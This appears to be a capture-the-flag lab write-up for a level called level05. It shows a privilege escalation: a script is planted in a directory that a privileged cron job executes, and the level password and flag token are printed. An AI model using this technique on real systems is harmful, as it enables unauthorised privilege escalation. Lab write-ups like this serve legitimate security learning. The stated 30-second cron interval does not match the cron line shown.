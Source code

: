 `su level05 -> ne2searoevaevoem4ov4ar8ap`

When we log in we can see:

```
You have a new mail.
```
On Linux we can find our mail folder with `echo $MAIL` -> /var/mail/level05

We have a file named level05 in /var/mail/level05:

```bash
$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Check the content of /usr/sbin/openarenaserver:

```bash
$ cat /usr/sbin/opearenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done 
```

This script is a cron job, running every 30 seconds, that iterates on every files in /opt/openarenaserver/ and execute it with the permissions of the crontab owner, then erase it.
We need to create a little script to get the flag:

```bash
echo "getflag > /tmp/flag" > /opt/openarenaserver/script
```

Wait 30 seconds and get the flag:

```bash
$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
